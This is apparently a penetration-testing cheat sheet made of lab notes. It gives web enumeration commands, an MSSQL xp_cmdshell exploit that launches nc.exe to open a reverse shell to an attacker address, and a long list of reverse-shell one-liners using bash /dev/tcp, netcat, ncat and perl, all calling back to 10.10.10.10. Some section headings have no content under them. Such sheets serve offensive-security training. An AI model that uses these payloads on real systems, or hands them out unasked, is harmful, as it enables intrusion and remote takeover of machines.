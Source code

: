 ```
cat nmap-scan_10.11.1.1-254

cat nmap-scan_10.11.1.1-254 | grep 80

cat nmap-scan_10.11.1.1-254 | grep 80 | grep -v "Nmap"

cat nmap-scan_10.11.1.1-254 | grep 80 | grep -v "Nmap" | awk '{print $2}'

for ip in $(cat nmap-scan_10.11.1.1-254 | grep 80 | grep -v "Nmap" | awk '{print $2}'); do cutycapt --url=$ip --out=$ip.png;done ![image](https://user-images.githubusercontent.com/32726832/168017683-f53aedfb-8f65-4d11-86f1-e937c76de13a.png)

nmap --script http-enum.nse 10.11.1.133
nikto -h http://10.11.1.133
gobuster dir http://10.11.1.133 -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e

```
### Network Enumeration
```
```
### Gaining Access/Exploitation
```
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="c:\\Users\Public\\nc.exe -e cmd.exe 192.168.119.x 4444" 10.11.1.x

```
### Creating Reverse Shells
https://www.revshells.com/
```
sh -i >& /dev/tcp/10.11.1.10/9001 0>&1
0<&196;exec 196<>/dev/tcp/10.10.10.10/9001; sh <&196 >&196 2>&196
exec 5<>/dev/tcp/10.10.10.10/9001;cat <&5 | while read line; do $line 2>&5 >&5; done
sh -i 5<> /dev/tcp/10.10.10.10/9001 0<&5 1>&5 2>&5
sh -i >& /dev/udp/10.10.10.10/9001 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
nc -e sh 10.10.10.10 9001
nc.exe -e sh 10.10.10.10 9001
nc -c sh 10.10.10.10 9001
ncat 10.10.10.10 9001 -e sh
ncat.exe 10.10.10.10 9001 -e sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|ncat -u 10.10.10.10 9001 >/tmp/f
rcat 10.10.10.10 9001 -r sh
perl -e 'use Socket;$i="10.10.10.10";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'

```
### Escaping Restricted Shells
